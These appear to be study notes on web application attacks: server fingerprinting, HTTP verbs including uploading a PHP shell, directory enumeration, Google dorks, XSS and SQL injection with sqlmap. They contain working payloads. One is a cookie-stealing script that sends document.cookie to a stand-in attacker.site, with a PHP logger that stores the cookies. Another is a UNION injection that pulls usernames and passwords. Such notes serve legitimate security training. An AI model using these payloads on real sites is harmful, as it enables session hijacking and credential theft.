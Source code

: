 # Web Application Attacks

## Web Server Fingerprinting

### netcat for HTTP servers
```bash
$ nc <target_address> <port>
HEAD / HTTP/1.0
```
### openssl for HTTPS servers
```bash
$ openssl s_client -connect <target_address>:<port>
HEAD / HTTP/1.0
```
### httprint using signature-based fingerprinting
```bash
$ httprint -P0 -h <target_hosts> -s <signature_file>
```

-P0 = don't ping the host

## HTTP Verbs

### `GET`
Used to request a resource. No use of request body.

### `POST`
Used to submit HTML form data. 

POST parameters must be in the **request body**.

### `HEAD`
Requests only headers of the response. No response body.

### `PUT`
Used to **upload** a file to the server.

The file is in the request body. File size is in the headers (`Content-length`).

#### Uploading a PHP Shell
`PUT` a shell.php file to the server.
`GET` information from it, displayed in the browser.

### `DELETE`
Used to **remove** a file from the server. No request body.

Example: `DELETE login.php`

### `OPTIONS`
Used to query the web server for enabled HTTP Verbs

## Directories and Files Enumeration 

`Dirbuster` and `Dirb`

Word lists at `/etc/share/dirbuster/wordlists`

## Google Dorks

`site:`

`inurl:admin`

`intitle:login`

`filetype:`

## XSS
Look at every user input, and test if it is somehow displayed on the output of the web application.

Try to inject a harmless HTML tag like `<i>`, `<pre>` or `<plaintext>` to see it in the output.

```js
<script>alert('XSS')</script>
```

### Reflected XSS
Malicious payload is carried **inside the request** from the victim browser.

Triggered by posting a link - when users click on the link, they trigger the attack.

### Persistent XSS
The payload is sent to the web server and **stored**. 

The malicious code gets delivered each time any web browser hits the injected page.

Common examples are comments, forum posts etc.

### Cookie Stealing via XSS
If cookies don't have the `HttpOnly` flag, they can be stolen.

`document.cookie` can get the current cookies.

#### Example Code for cookie stealing
```javascript
<script>
var i = new Image();
i.src = "http://attacker.site/log.php?q="+document.cookie;
</script>
```

Assume log.php saves the cookie in a text file on the `attacker.site`.
```php
<?php
$filename = "/tmp/log.txt";
$fp = fopen($filename, 'a');
$cookie = $_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

- Try (hack.me)[https://hack.me] to practice more XSS and web app attacks.


## SQLi

### SQL Syntax

```sql
SELECT <columns list> FROM <table> WHERE <condition>;
```

#### `UNION` command
```sql
<SELECT statement> UNION <another SELECT statement>;
```

#### Comments
- `#`(the hash symbol)
- `-- -` (two dashes followed by a space)

### SQL Queries inside Web Applications

Dynamic queries using user-supplied inputs

```sql
SELECT Name, Description FROM Products WHERE ID='$id';
```

Attacker can craft the `$id` value to something like: `' OR 'a'='a` or `' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a`

### Finding injection points

Test every supplied user input:
- `GET` parameters
- `POST` parameters
- HTTP Headers
	- `User-Agent`
	- `Cookie`
	- `Accept` etc.

Try to inject:
- String terminators: `'` and `"`
- SQL commands: `SELECT`, `UNION` etc.
- SQL comments: `#` or `-- -`

### Boolean Based SQL Injections
Query whether the `SUBSTR()` of a field like `user()` is a certain value.

Example: `' OR SUBSTR(user() , 1, 4) = 'root`

### UNION Based SQL Injections
If any part of the original query can be empty, we can have the results of another query `UNION` shown on page.

```sql
' UNION SELECT user(); -- -';
```

### SQLMap

```bash
$ sqlmap -u <URL> -p <injection parameter> [options]
```

#### SQLMap options
- `--tables` displays all tables
- `-D <DB_Name> -T <table_name> --dump` dumps table
